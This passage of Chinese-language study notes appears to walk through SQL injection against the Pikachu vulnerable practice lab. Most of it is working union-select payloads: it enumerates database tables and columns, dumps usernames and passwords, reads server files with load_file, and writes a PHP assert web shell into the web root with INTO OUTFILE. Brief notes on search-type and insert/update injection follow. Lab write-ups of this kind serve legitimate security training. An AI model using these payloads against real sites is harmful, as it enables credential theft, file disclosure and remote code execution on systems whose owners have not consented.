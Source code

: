 `?name=xxx%' union select 1,username,password from users%23`

`?name=xxx%' union select 1,2,load_file('C:/Windows/win.ini')%23`  读文件

`?name=x%' unxxion select 1,2,'<?php assert($_POST[2]); ?>' into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/2.php'%23  `  写马



## xx型注入——字符型注入get

**本质还是字符型注入，只是闭合不是那么简单。**

经过`1'\`测试得到`')`闭合

`?name=xxx') order by 2%23`

`?name=xxx') union select 1,2%23`

`?name=xxx') union select database(),2%23`

`?name=xxx') union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu"%23`

`?name=xxx') union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name='users'%23`

`?name=xxx') union select username,password from users%23`

`?name=xxx') union select 1,load_file('C:/Windows/win.ini')%23`  读文件

`?name=x') unxxion select 1,'<?php assert($_POST[2]); ?>' into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/2.php'%23  `  写马



## 搜索型注入——小知识：

输入某个参数，搜索出包含该参数的内容。

### MySQL语法

搜索table1内，username列包含n这个关键字的内容：

```
select * from table1 where username like ‘%n%’;
```



## insert/update注入

**insert型注入相关的sql语句大概是个 `INSERT INTO 表名称 VALUES (值1, 值2,....)`或者`INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,....)` 的形式。**

**update型注入相关的sql语句大概是个 `UPDATE 表名称 SET 列名称 = 新值 WHERE 列名称 = 某值 `的形式。**



`insert into table1 (username,password,sex,phone,address,live)values('$u','$p','','','','');`
